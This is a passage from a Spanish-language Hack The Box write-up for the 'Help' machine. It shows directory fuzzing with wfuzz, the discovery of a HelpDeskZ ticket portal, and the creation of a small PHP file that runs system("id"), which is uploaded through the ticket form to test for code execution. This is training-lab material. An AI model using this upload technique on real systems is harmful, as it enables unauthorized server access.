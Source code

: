 ### Puerto 80 [🔗](#puerto-80) {#puerto-80}

Si nos fijamos en nuestro escaneo de versiones, vemos que el puerto **80** sostiene la página por default ofrecida por **Apache**:

![170page80_apacheDefault](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/help/170page80_apacheDefault.png)

Claramente nada interesante, jugando en internet con la versión de **Apache** tampoco vemos nada, intentemos ver si existen directorios fuera de nuestra vista:

```bash
❱ wfuzz -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/common.txt http://10.10.10.121/FUZZ
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000024:   403        11 L     32 W       296 Ch      ".htaccess"
000000023:   403        11 L     32 W       291 Ch      ".hta"
000000025:   403        11 L     32 W       296 Ch      ".htpasswd"
000002180:   200        375 L    968 W      11321 Ch    "index.html"
000002305:   301        9 L      28 W       317 Ch      "javascript"
000003694:   403        11 L     32 W       300 Ch      "server-status"
000004001:   301        9 L      28 W       314 Ch      "support"
...
```

Opa, encontramos 2 directorios llamativos, `javascript` y `support`, si exploramos `javascript` nos indica que no tenemos permisos para ver su contenido; peeeeeeero si intentamos con `support` caemos acá:

![170page80_support](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/help/170page80_support.png)

😯 Un servicio llamado [HelpDeskZ](https://www.helpdeskz.com/) que nos permite darle a nuestro sitio un apartado de soporte mediante **tickets**, interesante, sigamos viendo...

Hay un apartado `/login`, pero probando credenciales por default no logramos pasarlo, intentamos algunos payloads de inyecciones conocidas pero tampoco. Jugando con los demás ítems vemos uno para enviar nuestro ticket:

![170page80_support_formTickets](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/help/170page80_support_formTickets.png)

Tenemos un formulario para detallar el problema, vemos un campo en el que podemos agregar un archivo, generemos uno para probar si podemos subir objetos `.php`:

```bash
❱ cat holiwis.php
<?php system("id"); ?>
```

El archivo en caso de ser interpretado por alguna web nos deberia devolver el resultado del comando `id`, intentemos enviar el formulario pero ahora agregando el archivo:

![170page80_support_formTickets_file](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/help/170page80_support_formTickets_file.png)
